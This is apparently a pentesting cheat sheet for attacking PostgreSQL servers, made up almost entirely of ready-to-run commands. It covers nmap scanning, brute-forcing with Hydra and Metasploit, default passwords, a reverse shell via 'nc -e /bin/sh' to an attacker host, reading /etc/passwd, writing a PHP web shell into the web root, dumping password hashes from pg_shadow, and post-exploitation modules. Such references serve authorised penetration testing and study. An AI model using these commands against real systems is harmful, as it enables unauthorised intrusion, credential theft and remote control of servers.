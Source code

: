 # PostgreSQL

PostgreSQL default port: `5432/tcp`

## Nmap

    nmap -sV -sC TARGET_IP -p 5432

### Small brute force

    nmap -sV -sC TARGET_IP -p 5432 --script pgsql-brute

## Client 

    psql -h TARGET_IP -U USERNAME -W PASSWORD DATABASE

## Default Passwords

|Username|Password|
|:-------|:-------|
|postgres|postgres|
|postgres|password|
|postgres|admin|
|admin|admin|
|admin|password|

## Password Cracking

> Hydra

    hydra -L user.txt -P pass.txt TARGET_IP postgres

> Metasploit 

    use auxiliary/scanner/postgres/postgres_login

## COMMAND EXECUTION

```sql
CREATE FUNCTION sys(cstring) RETURNS int AS '/tmp/pg_exec.so', 'pg_exec' LANGUAGE 'c' STRICT;
SELECT sys('nc -e /bin/sh LHOST LPORT');
```

> Metasploit

    use exploit/multi/postgres/postgres_copy_from_program_cmd_exec

## Read file 
```sql
create table hack(file TEXT);
COPY hack FROM '/etc/passwd';
select * from hack;
```

## Write file 
```sql
create table hack(put TEXT);
INSERT INTO hack(put) VALUES('<?php echo system("$_REQUEST[cmd]");?>');
COPY hack(put) TO '/var/www/html/shell.php';
```

## Querys

> List databases
```sql
SELECT dataname FROM pg_database;
```

> Get BD version 
```sql
SELECT version();
```

> Get credentials 
```sql
SELECT username, passwd FROM pg_shadow;
```

## Dumping the database

```zsh
pg_dump --host=TARGET_IP --username=USERNAME --password --dbname=DATABASE --table='TABLE' -f output_pgdump
```

## Metasploit postgresql modules

> Enumeration
```
auxiliary/scanner/postgres/postgres_dbname_flag_injection
auxiliary/scanner/postgres/postgres_login
auxiliary/scanner/postgres/postgres_version
```


> POST-Exploit
```
auxiliary/admin/postgres/postgres_readfile
auxiliary/admin/postgres/postgres_sql
auxiliary/scanner/postgres/postgres_hashdump
auxiliary/server/capture/postgresql
exploit/linux/postgres/postgres_payload
exploit/windows/postgres/postgres_payload
```

## Source 

- https://medium.com/@lordhorcrux_/ultimate-guide-postgresql-pentesting-989055d5551e
- https://medium.com/@netscylla/pentesters-guide-to-postgresql-hacking-59895f4f007
- https://book.hacktricks.xyz/pentesting/pentesting-postgresql
- https://www.hackingarticles.in/penetration-testing-on-postgresql-5432/
